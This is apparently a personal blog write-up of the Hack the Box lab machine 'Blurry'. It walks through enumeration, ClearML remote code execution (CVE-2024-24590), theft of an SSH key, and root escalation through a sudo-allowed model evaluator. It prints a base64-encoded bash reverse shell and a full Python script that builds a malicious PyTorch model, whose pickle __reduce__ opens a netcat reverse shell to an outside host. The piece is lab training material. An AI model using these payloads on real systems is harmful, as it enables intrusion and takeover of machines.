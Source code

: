 ```yaml
---
draft: false
title: "Hack the Box #5 - Blurry w/o Metasploit"
date: 2024-08-14
author: William
category:
  - Tech
tags:
  - Hacking
  - Security
cover:
  image: hack_the_box_5_blurry.png
  alt: hack_the_box_5_blurry.png
---
```


I woke up this morning breathed in that sweet morning air. I could feel it, to days the day ima hack a box and come to the sun setting I had pwned this box by getting an AI model to execute a reverse shell that got me root! Here we go

![ChewingStraw](https://media4.giphy.com/media/v1.Y2lkPTc5MGI3NjExamtrYXIyajJ5NjFtNzRzc25mdmQzbTFsNG9xamtqbHJpZXZudXhydyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/lqqB7E9CdSG76/200.gif#center)

## Enumeration
What can nmap tell us about this target

```bash
└─$ nmap -A -p- 10.10.11.19 -oN nmap.scan
# Nmap 7.94SVN scan initiated Sat Aug 10 11:14:11 2024 as: nmap -A -p- -oN nmap.scan 10.10.11.19
Nmap scan report for 10.10.11.19
Host is up (0.046s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to <http://app.blurry.htb/>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
# Nmap done at Sat Aug 10 11:14:36 2024 -- 1 IP address (1 host up) scanned in 25.45 seconds

```

Lets add `app.blurry.htb` to our hosts file and run some subdomain enumeration tool to see what else is out there


```bash
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.11.19 -H "HOST: FUZZ.blurry.htb" -ac -o ffuf.scan

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       
_______________________________________________

...
app                     [Status: 200, Size: 13327, Words: 382, Lines: 29, Duration: 11ms]
files                   [Status: 200, Size: 2, Words: 1, Lines: 1, Duration: 21ms]
chat                    [Status: 200, Size: 218733, Words: 12692, Lines: 449, Duration: 56ms]
```


So we have `app` , `files` and `chat` as subdomains. Adding these to the hosts file lets enumerate each of these for their sub directories.

I went ahead and dug around with both gobuster and manually exploring. When going to `app.blurry.htb` we get taken to an webapp and are prompted to create an account. Which I do, called `Deez` and poke around.

## Exploitation
In the investigation we find the `app` subdomain is running an app called **clear.ml** and with some trusty googling we find this vuln [https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit](https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit) to execute this script first we need to create credentials on our clear.ml account. 
![keys](https://i.imgur.com/457thdA.png#center)

Once that is done and the subdomain `api` is added to the hosts file we configure the exploit.
```bash
└──$ python3 exploit.py                                                    
                                           
    ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠄⠄⠄⣠⣴⣶⣾⣿⣿⣿⣷⣶⣤⣀⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⢀⣴⣿⣿⣿⡿⠿⠟⠛⠻⠿⣿⣿⣿⡷⠆⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⢠⣿⣿⣿⠟⠁⠄⠄⠄⠄⠄⠄⠄⠉⠛⠁⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⢠⣿⣿⣿⠃⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⢸⣿⣿⡇⠄⠄⠄⠄⣠⣾⠿⢿⡶⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⢸⣿⣿⣿⣿⡇⠄⠄⠄⠄⣿⡇⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⣿⣿⣿⣿⣷⡀⠄⠄⠄⠙⠿⣶⡾⠟⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠘⣿⣿⣿⣿⣷⣄⠄⠄⠄⠄⠄⠄⠄⠄⠄⣀⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠘⢿⣿⣿⣿⣿⣷⣦⣤⣀⣀⣠⣤⣴⣿⣿⣷⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠙⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠿⠛⠁⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠄⠄⠈⠛⠻⠿⣿⣿⡏⠉⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                      
CVE-2024-24590 - ClearML RCE
============================
[1] Initialize ClearML
[2] Run exploit
[0] Exit
[>] Choose an option: 1
[+] Creating a copy of clearml.conf in clearml.conf.bak
[+] Initializing ClearML
[i] Press enter after pasting the configuration
...
Web App: http://app.blurry.htb
API: http://api.blurry.htb
File Store: http://files.blurry.htb
...
ClearML setup completed successfully.

```

Now we are primed for attack and it is time to pounce 

![pounce](https://media0.giphy.com/media/v1.Y2lkPTc5MGI3NjExb3JleDdvcjRmcXIweGN0bXkzajQwZ3BzaW1ja2x4MWV0MGQ3eWUwaiZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/26h0qOq4LxV8YcDKw/giphy.gif#center)


```bash
└─$ python3 exploit.py
...
============================
[1] Initialize ClearML
[2] Run exploit
[0] Exit
[>] Choose an option: 2
[+] Your IP: 10.10.14.62
[+] Your Port: 1234
[+] Target Project name Case Sensitive!: Black Swan
[+] Payload to be used: echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42Mi8xMjM0IDA+JjEi | base64 -d | sh
[?] Do you want to start a listener on 1234? (y/n): y
[+] pwncat listener started on 1234
[i] This exploit requires that another user deserializes the payload on their machine.
ClearML Task: created new task id=3df2aa3a66144bbbbdba441a8689b4ed
ClearML results page: http://app.blurry.htb/projects/116c40b9b53743689239b6b460efd7be/experiments/3df2aa3a66144bbbbdba441a8689b4ed/output/log
[i] Please wait...
ClearML Monitor: GPU monitoring failed getting GPU reading, switching off GPU monitoring
bash: cannot set terminal process group (220630): Inappropriate ioctl for device
bash: no job control in this shell
jippity@blurry:~$ 

```

And after a little wait for the ML model to execute we get a lovely call home, which leads us nicely to the first user flag and poking around the user profile we find a SSH key which helps us keep persistence on our target.
```bash
jippity@blurry:~$ cat user.txt
================ USER_FLAG ================
jippity@blurry:~$ cat /.ssh/id_rsa
=============== PRIVATE_KEY ===============
_________________________________________
└─$ ssh -i id_rsa jippity@10.10.11.19
jippity@blurry:~$ 
```

## Privilege Escalation

With persistence achieved it is time to escalate to root. Transferring over linpeas using our newly acquired private key we can get a broadview of what vectors to escalation we have available to us. 

```bash
└─$ scp -i /home/kali/.ssh/id_rsa ./linpeas.sh jippity@10.10.11.19:~/
_______________________________________________________________________
jippity@blurry:~$ linpeas.sh
...
User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
...
```

Looking through linpeas findings one thing stands out as interesting. There is a program `/usr/bin/evaluate_model` that when executed will be run as root and it doesn't require a password to do so. Taking a closer look at the script in question it looks to only take .pth files.
A .pth file is a compiled AI model file that is used by [PyTorch to save and load models](https://pytorch.org/tutorials/beginner/saving_loading_models.html). So in theory if we can create our own malicious model we can get this script to execute the malicious model and use it to escalate.

Here is the script ill be using:
```python
import torch
import torch.nn as nn
import os

class MaliciousModel(nn.Module):
    # PyTorch's base class for all neural network modules
    def __init__(self):
        super(MaliciousModel, self).__init__()
        self.dense = nn.Linear(10, 1)
    
    # Define how the data flows through the model
    def forward(self, abdulrahman): # Passes input through the linear layer.
        return self.dense(abdulrahman)
   
    # Overridden __reduce__ Method
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.46 6060 >/tmp/f"
        return os.system, (cmd,)

# Create an instance of the model
malicious_model = MaliciousModel()

# Save the model using torch.save
torch.save(malicious_model, 'callhome.pth')
```

**Explanation of the Script**:

- **`MaliciousModel` Class**: Defines a simple neural network model.
- **`__reduce__ Method`**: Overridden to include a command that creates a reverse shell using netcat.
- **`torch.save` Function**: Saves the model to a file named `.callhome.pth`.

Pushing this onto the box and we pass the malicious model to the `evaluate_model` script as follows and wait...
```bash
jippity@blurry:~$ sudo /usr/bin/evaluate_model /models/callhome.pth 
```

Looking to our netcat awaiting in the wings with baited breath... SHELL!!!
```Bash
# whoami
root
# cat /root/root.txt
================= ROOT_FLAG =================
```

And that is root baby! WINNING!!! And I get my [rubber stamp of approval](https://www.hackthebox.com/achievement/machine/1695260/605) from Hack the Box as a reward.  Now that I can say with confidence I have hacked an AI model I'm going to go touch some grass :D

![touchGrass](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExdWt0Z3Z5a2R6ODhpM2h1azVqNTExazE1MHVqMms5amZzbGwzdzBsbCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/VlYBM5zERKWD5ONSzi/giphy.gif#center)


